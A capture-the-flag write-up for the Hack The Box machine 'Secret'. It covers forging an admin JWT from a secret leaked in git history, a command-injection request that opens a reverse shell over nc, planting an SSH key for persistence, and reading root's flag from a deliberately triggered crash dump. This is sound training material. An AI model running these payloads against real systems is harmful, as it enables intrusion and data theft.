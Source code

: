 # SECRET
### User Flag

```bash
┌──(kali@kali)-[~]
└─$ sudo nmap -p- -sS --min-rate 5000 --open -vvv -n -Pn 10.10.11.120
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
80/tcp   open  http    syn-ack ttl 63
3000/tcp open  ppp     syn-ack ttl 63
```

we can fuzz the page but there is really nothing interesting.
First thing to do is download the source code on the main page and then follow the tutorial to create an account with burp for example.

```
POST /api/user/register HTTP/1.1
Accept: application/json
Content-Type: application/json
Content-Length: 85

{
	"name": "Dasor_",
	"email": "testmail@mail.com",
	"password": "testtest"
  }
```

```
POST /api/user/login HTTP/1.1
Accept: application/json
Content-Type: application/json
Content-Length: 85

{
	"email": "testmail@mail.com",
	"password": "testtest"
  }
```

and we get our JWT token althought it is pretty useless since when we connect to /api/priv we just get a message saying that we are normal users.
If we take a look at the source code in /routes/private.js we see that to be admin the our name must be 'theadmin'. So we need to fake our JWT token but we need the secret. If we take a look at the git commits

```bash
┌──(kali@kali)-[~/Machines/Secret/local-web]
└─$ git log --oneline     
e297a27 (HEAD -> master) now we can view logs from server 😃
67d8da7 removed .env for security reasons
de0a46b added /downloads
4e55472 removed swap
3a367e7 added downloads
55fe756 first commit

┌──(kali㉿kali)-[~/Machines/Secret/local-web]
└─$ git checkout de0a46b .
Updated 2 paths from aac28c4
```

if we take a look at the old .env we'll find the secret so we can create a JWT token with name 'theadmin' at jwt.io . Now the page says we are admin but we cannot do anything. let's try accesing /api/logs since we saw that on the file previously mentioned private.js (remember to come back to the lastest commit)

```java
if (name == 'theadmin'){
        const getLogs = `git log --oneline ${file}`;
        exec(getLogs, (err , output) =>{
            if(err){
                res.status(500).send(err);
                return
            }
```

we can exploit the exec function and create a reverse shell like this (nc -e doesn't work on this machine)

```bash
┌──(kali@kali)-[~/Machines/Secret]
└─$ nc -lnvvvp 4444                                             
listening on [any] 4444 ...
```

```
GET /api/logs?file=;mknod%20/tmp/backpipe%20p;%20/usr/bin/bash%200</tmp/backpipe%20|%20nc%2010.10.14.196%204444%201>%20/tmp/backpipe
Host: 10.10.11.120
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
auth-token:your admin token
Cache-Control: max-age=0
Content-Length: 4
```

Now we are in let's get the user flag

```bash
connect to [10.10.14.196] from (UNKNOWN) [10.10.11.120] 33178
python3 -c 'import pty; pty.spawn("/bin/bash")'
dasith@secret:~/local-web$ cat /home/dasith/user.txt
```

### Root flag

(we can add our own ssh key to make the work flow easier)

```bash
dasith@secret:~/local-web$ cd /home/dasith/.ssh
dasith@secret:~/local-web$ echo 'yourkey' >> authorized_keys
```

now if we search in /opt we find a program called count that gives us some information about **any** file or directory. If we look at the code in code.c we can see that if the program crashes it will send a report to /var/crash (default route) so lets do a little trick

```bash
dasith@secret:/opt$ ./count
Enter source file/directory name: /root/root.txt

Total characters = 33
Total words      = 2
Total lines      = 2
Save results a file? [y/N]: ^Z
[1]+  Stopped                 ./count
dasith@secret:/opt$ ps -aux | grep count
root         827  0.0  0.1 235668  7404 ?        Ssl  20:16   0:00 /usr/lib/accountsservice/accounts-daemon
dasith      1688  0.0  0.0   2488   592 pts/3    T    20:20   0:00 ./count
dasith      1691  0.0  0.0   6432   668 pts/3    S+   20:21   0:00 grep --color=auto count

dasith@secret:/opt$ kill -11 1688
dasith@secret:/opt$ fg
./count
Segmentation fault (core dumped)
```

so we have now created a crash report, we can make it "readble" (it is a binary) by using

```bash
dasith@secret:/opt$ apport-unpack /var/crash/_opt_count.1000.crash /tmp/crash-report
```
and lasty search for the flag in the CoreDump Binary file in /tmp/crash-report
